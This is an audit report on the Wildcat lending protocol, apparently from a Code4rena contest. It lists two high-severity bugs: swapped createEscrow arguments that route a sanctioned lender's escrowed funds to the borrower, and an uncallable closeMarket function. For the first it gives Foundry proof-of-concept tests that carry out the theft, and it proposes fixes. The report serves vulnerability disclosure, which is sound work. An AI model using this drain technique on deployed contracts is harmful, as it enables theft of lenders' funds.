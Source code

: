 # Venus Prime

The code under review can be found in [2023-10-wildcat](https://github.com/code-423n4/2023-10-wildcat).

## Findings summary

| ID       | Title                                                         | Severity |
| -------- | ------------------------------------------------------------- | -------- |
| [H-01]() | Borrower will steal lender's funds if lender gets sanctioned. | High     |
| [H-02]() | Missing function to close a market.                           | High     |

## [H-01] Borrower will steal lender's funds if lender gets sanctioned.

### Vulnerability details

In an event if lender gets sanctioned, borrower can call `nukeFromOrbit()` to block him from interacting with market, which will transfer all of lender's market tokens to an escrow. Also if a lender tries to execute a withdrawal while being sanctioned, protocol will automatically block him and transfer all of his money to a newly created escrow. This functionality exists to ensure a sanctioned address won't poison everyone else. But in the current implementation if a lender gets sanctioned, borrower is able to steal all of his funds that are to be transferred to an escrow.

When lender gets blocked, an escrow is deployed through a function in `WildcatSanctionsSentinel.sol`:

```solidity
function createEscrow(
    address borrower,
    address account,
    address asset
  ) public override returns (address escrowContract) {
```

Both time this function is called in `_blockAccount()` and `executeWithdrawal()` the order of arguments passed into the function is wrong.

```solidity
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
          accountAddress,
          borrower,
          address(this)
```

The account parameter in escrow will actually be set to borrower, meaning funds that should be transferred back to lender in the `releaseEscrow()` function will be transferred to borrower:

```solidity
function releaseEscrow() public override {
    if (!canReleaseEscrow()) revert CanNotReleaseEscrow();

    uint256 amount = balance();

    IERC20(asset).transfer(account, amount);

    emit EscrowReleased(account, asset, amount);
  }
}
```

### Impact

Borrower will steal all of the lender's assets.

### Proof Of Concept

```js
function test_BorrowerCanStealLendersDepositOfMarketToken() external {
       address asset = market.asset();
        // Alice deposits 1e18
        _deposit(alice, 1e18);
        assertEq(market.balanceOf(alice), 1e18);
        // Alice gets sanctioned
        sanctionsSentinel.sanction(alice);
        // NukeFromOrbit is called
        market.nukeFromOrbit(alice);
        assertEq(market.balanceOf(alice), 0);

        // Escrow is deployed to this address
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            address(market)
        );
        // Now all balance of alice is transferred to escrow
        assertEq(market.balanceOf(escrow), 1e18);
        // At this point balance of the borrower is 0
        assertEq(market.balanceOf(borrower), 0);
        // Release Escrow is called, which should:
        // 1. Revert as alice is still sanctioned
        // 2. If alice would not have been sanctioned, it should've transferred escrow balance to her
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        console.log("Escrow Balance", market.balanceOf(escrow));
        console.log("Borrower Balance of Market tokens", market.balanceOf(borrower));
        // Now all of the alice balance was transferred to borrower
        assertEq(market.balanceOf(borrower), 1e18);
        assertEq(market.balanceOf(alice), 0);

        address controller = market.controller();
        // Now borrower can withdraw her balance
        vm.startPrank(borrower);
        address[] memory lenders = new address[](1);
        lenders[0] = borrower;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Authorize borrower as a lender in order to withdraw
        IWildcatMarketController(controller).authorizeLenders(lenders);
        IWildcatMarketController(controller).updateLenderAuthorization(
            borrower,
            markets
        );
        uint256 balanceBorrower = IERC20(asset).balanceOf(borrower);
        console.log("Balance of borrower before withdrawal", balanceBorrower);
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        market.executeWithdrawal(borrower, expiry);
        uint256 balanceBorrowerAfter = IERC20(asset).balanceOf(borrower);
        assertEq(balanceBorrowerAfter, 1e18);
        console.log(
            "Balance of borrower after withdrawal",
            balanceBorrowerAfter
        );
    }

    function test_BorrowerCanStealLendersDepositOfUnderlying() external {
        address asset = market.asset();
        _deposit(alice, 1e18);
        // address of the escrow that will be deployed for alice
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            asset
        );
        address[] memory lenders = new address[](1);
        lenders[0] = alice;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Sanction alice
        sanctionsSentinel.sanction(alice);
        vm.startPrank(alice);
        // Alice queues a withdrawal
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        // Because she is blocked, here balance is transferred to an escrow
        market.executeWithdrawal(alice, expiry);
        vm.stopPrank();

        uint256 balanceOfEscrowBeforeRelease = IERC20(asset).balanceOf(escrow);
        console.log("Balance Of Escrow", balanceOfEscrowBeforeRelease);
        // Now releaseEscrow is called
        // It should revert since Alice is still sanctioned
        // And if she was not sanctioned, it should transfer the balance of underlying to her
        vm.prank(borrower);
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        // Balance of escrow has been transferred
        uint256 balanceOfEscrowAfterRelese = IERC20(asset).balanceOf(escrow);
        console.log(
            "Balance Of Escrow After Relese",
            balanceOfEscrowAfterRelese
        );
        // But it was transferred to the borrower
        uint256 balanceOfBorrowerAfterRelease = IERC20(asset).balanceOf(
            borrower
        );
        console.log(
            "Balance Of Borrower After Release",
            balanceOfBorrowerAfterRelease
        );
    }
```

### Recommended Mitigation Steps

When calling `createEscrow()` ensure that order of arguments passed into a function is correct.

```diff
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
-         accountAddress,
+         borrower,
-         borrower,
+         accountAddress,
          address(this)
```

## [H-02] Missing function to close a market.

### Vulnerability details

Market has a function `closeMarket()` that terminates a vault. The vault APR is set to 0% and the borrower is required to make a full return of all outstanding assets. Borrower may want to exercise this function in an event of lenders not withdrawing their assets and the borrower paying to much interests. But in current implementation there is no way to call this function.

```solidity
function closeMarket() external onlyController nonReentrant {
```

`closeMarket()` function has `onlyController` modifier, which means that it can only be called from a controller that deployed this market. In the controller contract there is no function that calls `closeMarket()`, which means there is no way to close the market.

### Recommended Mitigation Steps

Implement a way to close market, or change the modifier to onlyBorrower, that way borrower will be able to call it directly and not from controller.
